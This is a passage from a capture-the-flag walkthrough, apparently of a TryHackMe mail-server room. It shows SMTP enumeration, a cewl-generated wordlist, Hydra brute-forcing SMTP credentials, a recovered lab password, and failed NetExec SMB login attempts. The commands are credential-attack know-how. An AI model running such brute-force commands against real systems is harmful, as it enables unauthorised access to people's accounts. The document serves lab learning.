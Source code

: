 ```jsx
25/tcp    open  smtp          syn-ack ttl 125 hMailServer smtpd
| smtp-commands: BRICK-MAIL, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY

```

- Enumerating SMPT, I used the cewl command to create a custom word-list against the emails found in their contact page. I was unsuccessful until I used the - -**lowercase** flag in cewl which provided me a way as seen below.

```bash

#to create the custom list of words from `cewl`
cewl https://brownbrick.co --lowercase > custom_pass.txt

#using the custom word list with Hydra with out userlist from website reconnaissance 
┌──(kali㉿vbox)-[~/Documents/Rooms/yougotmail]
└─$ hydra -L users.txt -P custom_pass.txt mail.thm smtp -V 

```

User Creds brute forced. 

![images/image.png](images/image%201.png)

### Post-Credentials - Trying to get into system using the Creds found

```bash
[25][smtp] host: mail.thm   login: lhedvig@brownbrick.co   password: bricks

#since RDP port 3389 is open we will try these creds.
#used remmina but was unable to login. :/
#tried the following stuff but failed. 
──(kali㉿vbox)-[~]
└─$ nxc smb mail.thm -u lhedvig -p bricks --shares
SMB         10.10.224.121   445    BRICK-MAIL       [*] Windows 10 / Server 2019 Build 17763 x64 (name:BRICK-MAIL) (domain:BRICK-MAIL) (signing:False) (SMBv1:False)
SMB         10.10.224.121   445    BRICK-MAIL       [-] BRICK-MAIL\lhedvig:bricks STATUS_LOGON_FAILURE
                                                                                
┌──(kali㉿vbox)-[~]
└─$ nxc smb mail.thm -u brownbrick.co\lhedvig -p bricks --shares
SMB         10.10.224.121   445    BRICK-MAIL       [*] Windows 10 / Server 2019 Build 17763 x64 (name:BRICK-MAIL) (domain:BRICK-MAIL) (signing:False) (SMBv1:False)
SMB         10.10.224.121   445    BRICK-MAIL       [-] BRICK-MAIL\brownbrick.colhedvig:bricks STATUS_LOGON_FAILURE
                                                                                                             
┌──(kali㉿vbox)-[~]
└─$ nxc smb mail.thm -u brownbrick.co\lhedvig -p bricks --local-auth          
SMB         10.10.224.121   445    BRICK-MAIL       [*] Windows 10 / Server 2019 Build 17763 x64 (name:BRICK-MAIL) (domain:BRICK-MAIL) (signing:False) (SMBv1:False)
```